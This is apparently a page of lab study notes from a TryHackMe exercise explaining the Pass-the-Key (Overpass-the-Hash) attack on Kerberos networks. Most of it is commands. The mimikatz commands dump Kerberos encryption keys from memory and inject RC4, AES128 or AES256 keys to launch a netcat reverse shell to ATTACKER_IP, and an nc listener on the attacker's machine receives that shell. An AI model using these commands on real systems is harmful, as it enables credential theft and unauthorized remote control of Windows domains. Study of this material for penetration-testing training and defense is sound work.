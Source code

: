 Here is the reorganized information on Pass-the-Key:

**Pass-the-Key (PtK):**

Pass-the-Key is an attack similar to Pass-the-Hash (PtH) but specifically targeting Kerberos networks. When a user requests a Ticket Granting Ticket (TGT), they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be DES, RC4, AES128, or AES256, depending on the Windows version and Kerberos configuration.

To perform a Pass-the-Key attack, we can obtain the Kerberos encryption keys from memory using mimikatz with the following commands:

1. Use mimikatz to debug the privilege and extract the Kerberos encryption keys:
   ```
   mimikatz # privilege::debug
   mimikatz # sekurlsa::ekeys
   ```

2. Depending on the available keys, use the appropriate command in mimikatz to get a reverse shell via Pass-the-Key. Replace `ATTACKER_IP` with the IP address of your machine:
   - If we have the RC4 hash:
     ```
     mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
     ```

   - If we have the AES128 hash:
     ```
     mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
     ```

   - If we have the AES256 hash:
     ```
     mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
     ```

   - Note: When using RC4, the key will be equal to the NTLM hash of a user. This variant is known as Overpass-the-Hash (OPtH).

3. To receive the reverse shell, run a reverse listener on your AttackBox using the following command:
   ```
   user@AttackBox$ nc -lvp 5556
   ```

   - Any command executed from this shell will use the injected credentials via mimikatz.

This attack allows an attacker to gain unauthorized access to services in a Kerberos network by leveraging stolen or extracted Kerberos encryption keys.